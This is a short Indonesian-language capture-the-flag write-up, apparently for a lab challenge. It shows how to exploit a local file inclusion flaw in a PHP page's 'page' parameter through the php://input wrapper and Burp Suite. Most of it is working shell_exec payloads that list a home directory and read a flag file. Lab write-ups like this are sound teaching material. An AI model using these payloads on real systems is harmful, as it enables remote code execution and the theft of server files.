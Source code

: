 - mencari link index.php?page=pesan

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601

lalu ubah urlnya menjadi => ?page=php://input&cmd=ls
lalu tambahkan body pada burpsuite => <?php echo shell_exec($GET["cmd"]) ;?>
jika sudah maka kita bisa ubah body burpsuitenya menjadi yang kita inginkan seperti
<?php echo shell_exec("ls -al /home/test/") ;?>
<?php echo shell_exec("cat /home/test/.flag") ;?>